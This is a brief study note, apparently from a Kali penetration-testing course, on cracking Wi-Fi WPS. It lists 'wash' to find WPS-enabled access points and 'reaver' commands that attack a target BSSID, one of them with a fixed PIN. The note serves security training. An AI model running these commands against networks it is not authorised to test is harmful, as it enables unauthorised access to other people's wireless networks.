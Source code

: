 # 04_WPS Cracking

[WPS Cracking 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=bb2b5edb-43f4-4ef1-b0cc-d064afcd2f4c&finalAssessment=false)

**Command**

- `wash`
  - `wash -i wlan0mon`
    - `reaver -i wlan0mn -b <bssid> -vv`
    - `reaver -i wlan0mn -b <bssid> -p 12345670`
